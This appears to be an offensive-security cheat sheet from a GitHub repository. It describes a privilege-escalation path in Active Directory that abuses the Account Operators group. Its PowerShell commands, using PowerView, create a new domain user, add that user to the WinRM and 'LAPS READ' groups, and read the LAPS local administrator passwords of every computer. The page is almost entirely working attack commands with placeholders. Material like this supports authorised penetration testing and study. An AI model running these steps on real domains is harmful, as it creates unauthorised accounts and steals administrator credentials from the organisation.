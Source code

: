 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Account Operators", "active driectory", "ad", "Windows", "LAPS", "privesc"]
---
```


---
### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Create cred object (runas) \[optional\]

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create new user password object

```powershell
$new_user_password = ConvertTo-SecureString <NEW_USER_PASSWORD> -AsPlainText -Force
```

#### 4. Create new user account

```powershell
# Create a new user
New-AdUser <NEW_USER> -enabled $true -accountpassword $new_user_password -Credential $cred
```

```powershell
# Grant new user privilege (e.g. WinRM)
Add-DomainGroupMember -Identity WinRM -Members <NEW_USER> -Credential $cred
```

#### 5. Add new user to LAPS group

```powershell
Add-DomainGroupMember -Identity 'LAPS READ' -Members <NEW_USER> -Credential $cred
```

#### 6. Read LAPS password

```powershell
# Login as new user
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

<br>
